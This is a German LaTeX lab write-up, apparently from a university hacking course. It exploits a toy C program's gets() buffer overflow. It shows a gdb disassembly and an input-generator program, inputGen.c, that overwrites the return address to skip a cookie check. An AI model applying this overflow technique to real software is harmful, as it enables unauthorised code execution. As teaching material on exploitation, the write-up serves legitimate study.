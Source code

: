 \documentclass[10pt,a4paper]{article}
\begin{document}
Zunächst compilieren wir das Programm wieder, diesmal aber zur Sicherheit mit dem Parameter, um stack-protektoren nicht zu setzen:
\begin{verbatim}
gcc -o b b.c -fno-stack-protector
\end{verbatim}

Mit gdb schauen wir uns daraufhin das Ergebnis des Compilierens an:
\begin{verbatim}
$ gdb b
GNU gdb (GDB) 7.6.2
Copyright (C)
[...]
Hacking/Blatt5/b...(no debugging symbols found)...done.
(gdb) disassemble main
Dump of assembler code for function main:
   0x000000000040058d <+0>:	push   %rbp
   0x000000000040058e <+1>:	mov    %rsp,%rbp
   0x0000000000400591 <+4>:	sub    $0x70,%rsp
   0x0000000000400595 <+8>:	lea    -0x4(%rbp),%rdx
   0x0000000000400599 <+12>:	lea    -0x70(%rbp),%rax
   0x000000000040059d <+16>:	mov    %rax,%rsi
   0x00000000004005a0 <+19>:	mov    $0x400664,%edi
   0x00000000004005a5 <+24>:	mov    $0x0,%eax
   0x00000000004005aa <+29>:	callq  0x400460 <printf@plt>
   0x00000000004005af <+34>:	lea    -0x70(%rbp),%rax
   0x00000000004005b3 <+38>:	mov    %rax,%rdi
   0x00000000004005b6 <+41>:	callq  0x400490 <gets@plt>
   0x00000000004005bb <+46>:	mov    -0x4(%rbp),%eax
   0x00000000004005be <+49>:	cmp    $0xa0d00,%eax
   0x00000000004005c3 <+54>:	jne    0x4005cf <main+66>
   0x00000000004005c5 <+56>:	mov    $0x40067c,%edi
   0x00000000004005ca <+61>:	callq  0x400450 <puts@plt>
   0x00000000004005cf <+66>:	leaveq 
   0x00000000004005d0 <+67>:	retq   
End of assembler dump.
\end{verbatim}

Aus diesen Daten kann man lesen, dass bei Adresse 0x4005be die if-Abfrage umgesetzt wurde. Diese möchten wir mit unserer Eingabe umgehen und direkt zum printf("...") springen. Wir müssen also die Sprungadresse ersetzen durch 0x4005c5. Da diese Adresse nicht zu tippende Zeichen enthält schreiben wir uns ein Eingabe-Programm "`inputGen.c"', welches wir dann zusammen mit dem Programm "`b"' aufrufen:
\begin{verbatim}
./inputGen | ./b
\end{verbatim}

Input Gen compilieren wir mit:
\begin{verbatim}
gcc -o inputGen inputGen.c
\end{verbatim}

\begin{verbatim}
inputGen.c
---------------------------------
#include <stdio.h>

int main() {
   unsigned int i;
   //fill the char buffer
   for(i = 0; i < 108; i++){
      printf("a");
   }
   //print the cookie variable
   printf("dbcg");
   //print some unneeded data as offset to the jump adress
   for(i = 0; i < 8; i++){
      printf("%c", 0);
   }
   //print the correct adress for the jump
   printf("%c%c%c%c", 0x4005c5 & 0xFF, (0x4005c5 & 0xFF00) >> 8,
            (0x4005c5 & 0xFF0000) >> 16, (0x4005c5 & 0xFF000000) >> 24);
   for(i = 0; i < 4; i++){
      printf("%c", 0);
   }

   return 0;
}
\end{verbatim}
\end{document}
